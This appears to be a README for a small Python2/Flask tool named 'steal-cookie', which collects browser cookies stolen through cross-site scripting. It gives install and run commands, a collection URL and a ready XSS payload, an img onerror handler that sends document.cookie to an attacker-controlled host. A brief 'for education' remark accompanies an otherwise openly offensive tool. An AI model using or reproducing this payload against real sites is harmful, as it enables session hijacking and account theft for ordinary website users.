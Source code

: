 # steal-cookie
steal cookies from website using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ apt install python2-pip
````

````
$ pip install flask
````

# Run It :
 
 ````
 python2 xss.py
 ````
 
# stealing cookie using xss :

 <h2>enter the cookie in this url </h2>
 
 ````http://YOUR_IP/cookie?cookie=COOKIE```` 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  
 # Note :
    
    This Tool For education .. Good Luck ^_^

# My Links :

<a href="https://www.facebook.com/profile.php?id=100015121337012" > <h3> Facebook </h3></a>

